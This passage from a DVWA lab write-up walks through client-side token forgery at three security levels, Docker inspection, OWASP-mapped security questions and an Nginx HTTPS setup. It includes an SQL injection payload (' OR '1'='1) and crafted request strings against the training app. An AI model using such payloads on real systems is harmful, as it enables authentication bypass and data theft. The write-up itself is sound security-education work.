At High security level, DVWA attempts to enforce stricter CSP rules. However, the application still allows dynamic callback functions. By intercepting the request and modifying the callback parameter, attackers can inject arbitrary JavaScript and bypass the CSP protection.

---

### Security Comparison

| Security Level | Attack Success | Reason |
|----------------|---------------|-------|
| Low | Successful | CSP allows external script sources |
| Medium | Successful | Nonce value reused and predictable |
| High | Successful | Callback parameter injection |

---

## JavaScript Vulnerability

### Low Security

**Objective:** Submit the word `success`.

When we try to submit `success`, the application returns **Invalid token** because the token is generated using JavaScript before submission.

By inspecting the page source, we find the function responsible for generating the token:

```javascript
function generate_token() {
  var phrase = document.getElementById("phrase").value;
  document.getElementById("token").value = md5(rot13(phrase));
}
```

This means the token is generated using:

1. ROT13 transformation of the phrase
2. MD5 hash of the result

For the phrase:

```
success
```

ROT13 result:

```
fhpprff
```

MD5 hash:

```
38581812b435834ebf84ebcc2c6424d6
```

So the correct request values become:

```
token=38581812b435834ebf84ebcc2c6424d6&phrase=success
```

Submitting these values successfully completes the challenge.

**Screenshot to attach:**




---

### Medium Security

In the medium level, the token generation logic changes.

By inspecting the JavaScript code, we observe that the token is generated by:

1. Reversing the phrase
2. Adding `XX` at the beginning and end

Example:

```
phrase = success
reverse = sseccus
token = XXsseccusXX
```

So the request becomes:

```
token=XXsseccusXX&phrase=success
```

After submitting these values, the application accepts the request and the challenge is solved.

**Screenshot to attach:**




---

### High Security

At high security level, the token generation process becomes more complex.

The JavaScript performs the following steps:

1. Reverse the phrase  
2. Add `XX` at the beginning  
3. Calculate SHA256 hash  
4. Append `ZZ`  
5. Calculate SHA256 again

Steps for `success`:

1. Reverse:

```
sseccus
```

2. Add prefix:

```
XXsseccus
```

3. SHA256 hash:

```
7f1bfaaf829f785ba5801d5bf68c1ecaf95ce04545462c8b8f311dfc9014068a
```

4. Append `ZZ`:

```
7f1bfaaf829f785ba5801d5bf68c1ecaf95ce04545462c8b8f311dfc9014068aZZ
```

5. Final SHA256:

```
ec7ef8687050b6fe803867ea696734c67b541dfafb286a0b1239f42ac5b0aa84
```

Final request:

```
token=ec7ef8687050b6fe803867ea696734c67b541dfafb286a0b1239f42ac5b0aa84&phrase=success
```

Submitting this token completes the challenge successfully.

**Screenshot to attach:**




---

### Why This Vulnerability Exists

This vulnerability occurs because the application relies on **client-side JavaScript for security logic**.

Since JavaScript runs in the user's browser, an attacker can:

- View the source code
- Reverse engineer the token generation
- Manually craft valid requests

## Docker Inspection Tasks

### List Running Containers

Command:

```
docker ps
```

Result:  
The DVWA container is running successfully.

Screenshot:


---

### Inspect DVWA Container

Command:

```
docker inspect dvwa
```

Result:  
Displays detailed configuration of the DVWA container, including network settings, mounted volumes, and environment variables.

Screenshot:



---

### View Container Logs

Command:

```
docker logs dvwa
```

Result:  
Shows startup logs of the DVWA container and web server messages.

Screenshot:



---

### Access Container Shell

Command:

```
docker exec -it dvwa /bin/bash
```

Result:  
Successfully accessed the DVWA container’s shell.

Screenshot:



---

### List Application Files Inside Container

Command:

```
ls /var/www/html
```

Result:  
Lists all DVWA application files and directories.

Screenshot:



---

### Explanation

- **Application files location:** `/var/www/html`  
- **Backend technology:** LAMP stack (Linux, Apache, MySQL, PHP)  
- **Docker isolation:** Docker containers run using Linux namespaces and cgroups, which isolate processes, networking, and filesystem resources from the host system.
  
## Security Analysis Questions

### 1. Why does SQL Injection succeed at Low security?

- DVWA at Low security does not sanitize or validate user input in SQL queries.
- User input is directly inserted into SQL statements.
- Example:
```
SELECT * FROM users WHERE user='$username' AND password='$password';
```
- Payloads like `' OR '1'='1` always evaluate to true.
- No prepared statements or parameterized queries are used.
- This allows attackers to bypass authentication and access sensitive data.

---

### 2. What control prevents SQL Injection at High security?
- High security uses input validation and parameterized queries.
- User input is sanitized to remove special characters such as `'`, `--`, `;`.
- Prepared statements ensure input is treated as data, not code.
- SQL Injection attacks fail because user input cannot alter the SQL logic.

---

### 3. Does HTTPS prevent these attacks? Why or why not?
- HTTPS encrypts traffic between client and server.
- It does not prevent application-layer vulnerabilities such as SQL Injection, XSS, or CSRF.
- Malicious input is still processed unsafely by the server.
- HTTPS secures communication but does not replace secure coding.

---

### 4. What risks exist if this application is deployed publicly?
- Data exposure through SQL Injection or file inclusion.
- Remote code execution via command injection.
- Account compromise from brute force or weak authentication.
- Malware upload through file upload vulnerabilities.
- Content manipulation or cookie theft from XSS.
- Regulatory and compliance risks if sensitive data is leaked.

---

### 5. Map each vulnerability to its OWASP Top 10 (2025) category

| Vulnerability | OWASP Category (2025) |
|---------------|----------------------|
| Brute Force Authentication | A07:2025 - Authentication Failures |
| Command Injection | A05:2025 - Injection |
| CSRF | A01:2025 - Broken Access Control |
| File Inclusion | A02:2025 - Security Misconfiguration / A05:2025 - Injection |
| File Upload | A02:2025 - Security Misconfiguration |
| Insecure CAPTCHA | A07:2025 - Authentication Failures |
| SQL Injection | A05:2025 - Injection |
| SQL Injection (Blind) | A05:2025 - Injection |
| Weak Session IDs | A07:2025 - Authentication Failures |
| XSS (DOM) | A05:2025 - Injection |
| XSS (Reflected) | A05:2025 - Injection |
| XSS (Stored) | A05:2025 - Injection |
| CSP Bypass | A02:2025 - Security Misconfiguration / A05:2025 - Injection |
| JavaScript Execution | A05:2025 - Injection |

# Bonus Task: Deploy DVWA behind Nginx with HTTPS

## Step 1: Open the Nginx default site configuration

Open the default Nginx site configuration file in `nano`:

```
sudo nano /etc/nginx/sites-available/default
```

- This file controls how Nginx serves websites on your server.
- Screenshot:



---

## Step 2: Add HTTPS server block

Scroll to the bottom of the file and add the following server block:

```
server {
   listen 443 ssl;
   server_name localhost;
   ssl_certificate /etc/nginx/ssl/dvwa.crt;
   ssl_certificate_key /etc/nginx/ssl/dvwa.key;

   root /var/www/html;
   index index.php index.html index.htm;
   
   location / {
       try_files $uri $uri/ =404;
   }

location ~ \.php$ {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php7.4-fpm.sock;
   }
}
```

- This enables HTTPS (port 443) and tells Nginx to use the self-signed certificate.
- Screenshot:



---

## Step 3: Test Nginx configuration

Check if the Nginx configuration is valid:

```
sudo nginx -t
```

- If successful, you will see:

```
nginx: the configuration file /etc/nginx/nginx.conf syntax is ok
nginx: configuration file /etc/nginx/nginx.conf test is successful
```

- Screenshot:



---

## Step 4: Reload Nginx

Apply the changes without stopping the server:

```
sudo systemctl reload nginx
```

- Screenshot:



---

## Step 5: Verify HTTPS in Browser

- Open your browser and navigate to:
  
```
https://localhost/login.php
```

- You may see a self-signed certificate warning. This is normal for testing purposes.
- DVWA should now be accessible over HTTPS.
- Screenshot:



---

### Explanation

- Using Nginx as a reverse proxy allows you to serve DVWA over HTTPS.
- A self-signed certificate encrypts the traffic between the browser and server.
- HTTPS protects against man-in-the-middle attacks when testing locally.
- DVWA files are still served from `/var/www/html`.
